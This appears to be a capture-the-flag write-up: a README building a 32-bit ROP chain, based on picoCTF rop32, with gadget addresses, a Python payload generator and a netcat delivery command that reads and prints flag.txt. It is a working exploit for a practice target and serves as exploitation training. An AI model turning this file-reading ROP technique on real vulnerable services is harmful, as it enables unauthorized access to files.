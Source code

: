 # Read file ROP chain
Based on picoCTF rop32

## Building the chain:
```
&read                     <- 0x0806CD80
ret (pppr to clear args)  <- 0x0806CD02
0
buffer                    <- 0x080DA060
9

&open                     <- 0x0806CC60
ret (ppr to clear args)   <- 0x0806CE81
flag.txt
0

&read                     <- 0x0806CD80
ret (pppr to clear args)  <- 0x0806CD02
3                         <- likely fd for new file, 5 for socat
buffer                    <- writable in .data 0x080DA060
256                       <- buffer size we want

write                     <- 0x0806CE50
ret (exit)                <- 0x0804EEC0
1                         <- stdout
buffer                    <- flag file
256                       <- buffer size
```

## Compile:
```s
nasm -f bin -l sh.lst sh.asm
```

## Execution:
Need to allow server buffering between payloads. Send with `(cat payload1;sleep 1;cat payload2) | nc -nv 127.0.0.1 1337`.
```py
shellcode = b"\x80\xcd\x06\x08\x02\xcd\x06\x08\x00\x00\x00\x00\x60\xa0\x0d\x08\x09\x00\x00\x00\x60\xcc\x06\x08\x81\xce\x06\x08\x60\xa0\x0d\x08\x00\x00\x00\x00\x80\xcd\x06\x08\x02\xcd\x06\x08\x03\x00\x00\x00\x60\xa0\x0d\x08\x00\x01\x00\x00\x50\xce\x06\x08\xc0\xee\x04\x08\x01\x00\x00\x00\x60\xa0\x0d\x08\x00\x01\x00\x00"

p1 = open('payload1','wb')
p1.write(b"\x41"*28)
p1.write(shellcode)
p1.write(b"\x0a")
p1.close()

p2 = open('payload2','wb')
p2.write(str.encode("flag.txt") + b"\x00")
p2.close()
```

